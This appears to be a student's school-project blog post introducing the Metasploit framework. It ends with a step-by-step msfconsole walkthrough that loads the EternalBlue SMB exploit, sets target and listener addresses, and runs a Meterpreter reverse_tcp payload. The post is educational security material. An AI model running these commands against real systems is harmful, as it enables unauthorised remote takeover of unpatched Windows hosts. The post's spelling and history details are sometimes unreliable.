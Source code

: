 ```yaml
---
layout: post
title: "MetaSpoilt"
date: "2023-11-21"
categories: [school-projects]
published: true
---
```



Metasploit is a powerful open-source penetration testing framework its an essential tool for security professionals. Originally developed by H.D. Moore in 2003, Metasploit has since evolved into a comprehensive platform that facilitates the discovery, exploitation, and validation of vulnerabilities in various systems.

## What is Metasploit?

Metasploit provides a wide range of tools and resources for penetration testers, security researchers, and information security professionals. It simplifies the process of identifying and exploiting vulnerabilities, allowing users to assess the security of networks, applications, and systems in a controlled environment.

### Key Features of Metasploit

1. **Exploit Development:** Metasploit includes a vast collection of pre-built exploits, payloads, and auxiliary modules that assist in the development and execution of attacks.

2. **Payloads:** The framework supports a variety of payloads, enabling testers to deliver malicious code or actions to target systems. Payloads range from simple command execution to more advanced functionalities like Meterpreter sessions.

3. **Post-Exploitation:** Metasploit goes beyond just exploitation by providing tools for post-exploitation activities. This includes gathering information, privilege escalation, lateral movement, and maintaining access to compromised systems.

4. **Database Integration:** Metasploit integrates with databases to store and manage information about discovered vulnerabilities, exploited systems, and ongoing penetration tests. This facilitates efficient reporting and analysis.

## Getting Started with Metasploit

### Installation

Installing Metasploit is straightforward, and it is compatible with various operating systems, including Linux, Windows, and macOS. The official Metasploit website provides detailed installation instructions for different platforms.

[MetaSpoilt](https://www.metasploit.com/)

### Basic Usage

Once installed, users can launch the Metasploit console to interact with the framework. The command-line interface allows for the execution of various commands and modules.

```markdown
$ msfconsole
```

To demonstrate the simplicity of Metasploit, let's consider a basic scenario. Suppose you want to exploit a known vulnerability such as eternal blue,all you need is the ip address of the target machine. (EternalBlue is a computer exploit developed by the equation group or nationail security agency It was devolped around 2011 but eventually got leaked by the Shadow Brokers hacker group on April 14, 2017 it was designed to exploit a zero-day vulnerability in every version of Windows prior to Windows 8) 

Metasploit simplifies this process using pre-built modules.

```markdown
msf6 > search eternalblue
```
```markdown
msf6 > use exploit/windows/smb/ms17_010_eternalblue
```
```markdown
msf6 exploit(windows/smb/ms17_010_eternalblue) > options
```
```markdown
msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhosts (targets_ip)
```
```markdown
msf6 exploit(windows/smb/ms17_010_eternalblue) > set lhost (listener_ip)
```
```markdown
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/meterpreter/reverse_tcp
```
```markdown
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
```

This is a basic example, and Metasploit offers an extensive range of modules for different services, operating systems, and vulnerabilities.

### Conclusion

Metasploit remains an invaluable tool in the realm of cybersecurity, aiding security professionals in identifying and addressing vulnerabilities. Its open-source nature, active community, and continuous development make it a go-to choice for ethical hacking and penetration testing.
